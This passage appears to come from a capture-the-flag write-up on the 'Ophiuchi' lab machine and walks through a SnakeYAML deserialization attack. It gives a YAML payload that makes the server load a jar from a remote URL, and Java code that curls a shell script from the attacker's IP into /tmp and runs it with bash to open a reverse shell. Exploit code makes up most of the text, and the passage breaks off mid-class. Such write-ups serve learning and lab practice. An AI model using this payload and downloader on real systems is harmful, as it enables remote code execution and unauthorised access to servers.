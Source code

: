 ```java

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```
The code above causes the machine to ping our host.

![Getting ping proof](attachments/Ophiuchi3.png)

In order to get the machine to run the exploit put the following YAML in the box on the site. Make sure to change the IP to the correct IP.

```YAML
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```

In order to get a shell on the server the best way seemed to be downloading a reverse shell script and running it. The code to download and run the reverse shell is below. Also below is the bash script that sent the reverse shell.

### Java code
```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Process p = new ProcessBuilder("curl", "http://10.10.14.25/shell.sh", "-o", "/tmp/shell.sh").start();
            Process g = new ProcessBuilder("bash", "/tmp/shell.sh").start();
```
